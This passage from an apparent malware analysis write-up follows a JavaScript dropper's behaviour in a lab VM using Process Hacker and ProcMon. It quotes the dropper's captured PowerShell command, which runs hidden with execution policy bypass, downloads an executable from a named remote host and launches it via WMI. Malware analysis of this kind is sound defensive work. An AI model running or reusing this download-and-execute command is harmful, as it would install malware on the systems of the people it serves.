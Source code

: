 To run the malware, I tried two different things, both of which
generated pretty much the same result:

-   Double click on it
-   In a command terminal,
    `wscript 2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5.js`

### Results

#### Process Hacker

In Process Hacker, the `wscript` process starts and ends too quickly to
be noticed, but we do see a new `cmd.exe` start and then a child
`powershell.exe`:

![](/img/1530929386602.png)

Double clicking on that powershell process, we can grab the command
line:

![](/img/1530929434943.png)



    powershell.exe  -noprofile -windowstyle hidden  -executionpolicy bypass (new-object system.net.webclient).downloadfile('http://gostat.dhl-tcp.com/page818.php','C:\Users\REM\AppData\Local\TempoUE18.EXE'); Invoke-WmIMethoD -ClAsS WiN32_PrOcess -NAmE CrEAte -ArgUmentLisT 'C:\Users\REM\AppData\Local\TempoUE18.Exe'



I suspect that had the network connection on my analysis vm been up, and
the c2 been up, this would have opened and closed too fast to observe in
Process Hacker, but since the connection kept trying and timing out, we
got extra time to watch. After less than 15 seconds, the `cmd` and
`powershell` processes die.

#### Process Monitor (ProcMon)

To see what really happened, we'll turn to ProcMon. This tool has a
habit of showing so much information it's not useful. But if you filter
down correctly, you can learn a lot.

The first thing I'll look at is what processes started and by who. To do
that, we'll unselect all of the event types except for "Show Process and
Thread Activity" like this:

![](/img/1530929789801.png)

Next, we'll right click on a "Thread Create" event and select "Exclude
Thread Create". We'll do the same for "Threat Exit" and "Load Image".
We're left with a nice picture of what happened:

![](/img/1530930022323.png)

We can also click on the "Process Tree" button to get a graphical image:

